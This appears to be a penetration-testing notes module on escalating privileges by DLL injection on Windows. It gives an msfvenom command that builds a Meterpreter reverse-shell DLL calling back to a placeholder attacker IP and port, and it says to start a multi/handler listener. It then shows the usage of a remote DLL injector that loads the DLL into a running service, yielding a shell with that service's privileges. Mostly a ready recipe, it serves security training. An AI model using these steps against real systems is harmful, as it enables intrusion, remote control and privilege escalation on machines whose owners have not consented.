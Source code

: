 # DLL Injection
Privilege escalation is oftwn possible through the DLL injection technique which is decribed in this module.
## Create a Malicious DLL
We can use [MSFVenom]() to create a malicious reverse shell DLL with the following command,
```
root@attacker-machine:~# ./msfvenom -payload windows/meterpreter/reverse_tcp LHOST=(ATTACKER IP ADDRESS) LPORT=(ATTACKER PORT) -f dll > injectme.dll 
```
Now, we simply start the `exploit/multi/handler` listener on the attacker machine on the port specified during the creation of the DLL above. Ensure that the architecture, ports, IP, and payload all match correctly.
## Inject the DLL
Once we have infiltrated the DLL to the target system, we also need to infiltrate the [Remote DLL Injector](https://securityxploded.com/remote-dll-injector.php) binary. This will inject our malicious binary into the running address space of the service we intend to exploit. Below is the basic usage of the injector,
```
   RemoteDLLInjector.exe  <pid>  <dll_file_path>       
        -h                This help screen
        <pid>             Process ID of remote process to Inject DLL
        <dll_file_path>   Full path of DLL to be injected
```
Oncde injected, the process/service will execute the malicious DLL and we should get a reverse Meterpreter session to our attacker system with the effective UID of the service's permissions.
## Reference
* [Pentestlab Blog - DLL Injection](https://pentestlab.blog/2017/04/04/dll-injection/)
